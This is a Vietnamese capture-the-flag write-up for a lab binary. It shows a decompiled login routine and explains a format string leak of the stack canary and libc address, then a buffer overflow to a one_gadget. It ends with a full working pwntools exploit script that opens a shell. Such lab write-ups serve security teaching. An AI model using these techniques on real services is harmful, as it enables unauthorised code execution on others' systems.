






**1. Tìm lỗi**

Dùng lệnh ```file``` kiểm tra:

```
fmtstr4_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.31.so, for GNU/Linux 3.2.0, BuildID[sha1]=6280b1d10e0670c9b75c5509ae5676255964540b, not stripped
```

---> Mở bằng IDA64 ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[32]; // [rsp+0h] [rbp-80h] BYREF
  char buf[32]; // [rsp+20h] [rbp-60h] BYREF
  char v6[56]; // [rsp+40h] [rbp-40h] BYREF
  unsigned __int64 v7; // [rsp+78h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  init(argc, argv, envp);
  memset(s, 0, sizeof(s));
  memset(buf, 0, sizeof(buf));
  memset(v6, 0, 0x32uLL);
  printf("ID: ");
  read(0, s, 0x1FuLL);
  if ( strncmp(s, "01234456789", 0xBuLL) )
  {
    puts("Wrong ID!");
    exit(-1);
  }
  printf("Password: ");
  read(0, buf, 0x1FuLL);
  if ( strncmp(buf, "&WPAbC&M!%8S5X#W", 0x10uLL) )
  {
    puts("Wrong password!");
    exit(-1);
  }
  printf("Welcome back, agent ");
  printf(s);
  printf("Enter your secret: ");
  read(0, v6, 0x50uLL);
  return 0;
}
```

Chương trình bắt nhập ID đúng vào biến s phải đúng với giá trị '01234456789' thì mới cho phép tiếp tục nhưng ở đây chỉ lấy 0xb hay 11 byte đầu tiên của chuỗi

Sau đó nhập password vào biến buf và so sánh với chuỗi '&WPAbC&M!%8S5X#W' thì mới tiếp tục và ở đây cũng chỉ lấy 0x10 hay 16 byte đâu fcuar chuỗi để so sánh.

Ta thấy lỗi ở lệnh ```printf(s);``` có lỗi format string

Và nhập vào biến v6 0x50 hay 80 byte nhưng ở đây v6 được khai báo 56 byte -> có lỗi bof.

**2. Ý tưởng**

Dùng lệnh ```checksec``` kiểm tra:

```
pwndbg> checksec
[*] '/mnt/d/CTF_Writeup/Train/fmt4/fmtstr4_patched'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
```

Ta thấy stack đang ở Canary found nên có thể lợi dụng lỗi format string để leak địa chỉ canary và địa chỉ libc ra.

Với lỗi bof thì số byte in vượt quá không nhiều nên sẽ sử dụng ```one_gadget```

**3. Khai thác**

Nhập đúng ID với password rồi đặt breakpoint sau lệnh ```printf(s)``` để xem vị trí nào có thể leak được địa chỉ libc và canary.



Ta thấy ở vị trí 18 trên stack hay nhập ```%23$p``` thì leak ra một địa chỉ có thể tính toán được địa chỉ libc. Và ở vị trí 16 trên stack (trước rbp) lưu giá trị của canary nên nhập ```%$21p``` thì sẽ có được luôn địa chỉ của canary.

```
payload = b'01234456789'
payload += b'%21$p%23$p'
r.sendafter(b'ID: ', payload)
payload = b'&WPAbC&M!%8S5X#W'
r.sendafter(b'Password: ', payload)
```

Kiểm tra xem có leak ra hay không.



Như vậy đã leak ra cả địa chỉ canary và địa chỉ trên libc. Bây giờ chỉ cần lưu về để tính địa chỉ libc_base

```
data = r.recvuntil(b'Enter ', drop = True).split(b'0x')
canary = int(data[1], 16)
libc_leak = int(data[2], 16)
log.info('canary: ' + hex(canary))
log.info('libc leak: ' + hex(libc_leak))
```

Có được địa chỉ leak ra thì bây giờ đi tính toán địa chỉ libc base



Bây giờ là đi kiếm ```one_gadget``` để thực hiện shell:



Ta kiếm được 3 địa chỉ one_gadget trên.

Ta có địa chỉ leak ra cách địa chỉ libc_base ```0x24083```

```
   0x00005555555553bc <+332>:   lea    rax,[rbp-0x40]
   0x00005555555553c0 <+336>:   mov    edx,0x50
   0x00005555555553c5 <+341>:   mov    rsi,rax
   0x00005555555553c8 <+344>:   mov    edi,0x0
   0x00005555555553cd <+349>:   call   0x555555555120 <read@plt>
```

Ta thấy biến v6 cách rbp 0x40 byte nên cần nhập 0x40 byte rác rồi đưa địa chỉ canary vào và cuối cùng là địa chỉ one_gadget

Đặt brekpoint ở ret xem đã trả về ```one_gadget``` mình chèn vào chưa.


Có vẻ đã chạy quá hàm main của mình nên thử lùi về lần lượt 1 byte đến 0x38 thì đã trả về đúng



Ta có script như sau:

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./fmtstr4_patched", checksec = False)
libc = ELF("./libc-2.31.so", checksec = False)
ld = ELF("./ld-2.31.so", checksec = False)
r = process(exe.path)

context.binary = exe

#Leak địa chỉ
#input()
payload = b'01234456789'
payload += b'%21$p%23$p'
r.sendafter(b'ID: ', payload)
payload = b'&WPAbC&M!%8S5X#W'
r.sendafter(b'Password: ', payload)
data = r.recvuntil(b'Enter ', drop = True).split(b'0x')
canary = int(data[1], 16)
libc_leak = int(data[2], 16)
log.info('canary: ' + hex(canary))
log.info('libc leak: ' + hex(libc_leak))
libc.address = libc_leak - 0x24083
log.info('libc base: ' + hex(libc.address))

###Thực hiện shell
one_gadget1 = libc.address + 0xe3afe
one_gadget2 = libc.address + 0xe3b01
one_gadget3 = libc.address + 0xe3b04
payload = b'a'*0x38 + p64(canary) + p64(0) + p64(one_gadget2)
r.sendafter(b'secret: ', payload)
r.interactive()
```

**4. Lấy flag**


